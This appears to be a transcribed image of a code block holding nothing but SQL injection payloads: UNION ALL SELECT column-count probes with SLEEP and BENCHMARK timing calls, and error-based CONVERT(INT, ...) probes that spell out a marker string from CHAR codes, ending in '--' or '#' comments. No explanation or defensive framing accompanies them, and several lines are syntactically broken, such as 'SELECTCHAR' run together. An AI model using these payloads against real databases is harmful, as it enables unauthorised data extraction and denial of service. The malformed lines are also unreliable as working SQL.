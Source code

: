 ```
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT NULL-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))-- 
 UNION ALL SELECT NULL#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))#
```